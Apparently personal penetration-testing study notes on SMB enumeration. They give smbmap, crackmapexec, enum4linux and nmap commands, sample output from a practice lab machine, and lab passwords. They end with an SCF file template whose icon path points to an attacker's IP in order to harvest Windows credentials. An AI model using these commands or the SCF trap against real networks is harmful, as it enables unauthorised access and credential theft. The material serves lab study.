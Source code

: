 ## [SMB Enumeration (Port 139, 445)](https://gabb4r.gitbook.io/oscp-notes/service-enumeration/smb-enumeration)
## smbmap
```
smbmap -H $ip
smbmap -H $ip -u ''
smbmap -H $ip -u '' -p ''

crackmapexec smb $ip
crackmapexec smb $ip -u '' -p ''
crackmapexec smb $ip -u FSmith -p Thestrokes23
crackmapexec smb $ip -u FSmith -p Thestrokes23 --shares
```

```
$ smbmap -h | g \\-H 
usage: smbmap [-h] (-H HOST | --host-file FILE) [-u USERNAME] [-p PASSWORD]
  -H HOST               IP of host
```
##  Examples
```
$ smbmap -H $ip -r Replication                               
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Replication                                             READ ONLY
        .\Replication\*
        dr--r--r--                0 Sat Jul 21 18:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 18:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 18:37:44 2018    active.htb
```
```
$ smbmap -h | gi \\-r
              [--mode CMDMODE] [-L | -R [PATH] | -r [PATH]] [-A PATTERN | -g]
  
  -R [PATH]             Recursively list dirs, and files (no share\path lists

  -r [PATH]             List contents of directory, default is to list root of
                        all shares, ex. -r 'C$\Documents and
                        a file on a match (requires -R or -r), not case
```



```
$ find active.htb -type f 
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
```

[Nmap NSE SMB](https://www.blackhillsinfosec.com/a-pentesters-voyage-the-first-few-hours/)
| too long, tweak this
```
sudo nmap -sSUV -p U:137,T:139,445 --script 'smb* and not brute' $ip
```

### Without cred
```
enum4linux $ip | tee enum4linux_$(date +%y%m%d-%H%M).txt
```

### With cred
```
enum4linux $ip -u support -p '#00^BlackKnight' | tee enum4linux-creds_$(date +%y%m%d-%H%M).txt
```
```

```

[SMB Share – SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
vi @pentestlab.scf
```
[Shell]
Command=2
IconFile=\\<Attacker's IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```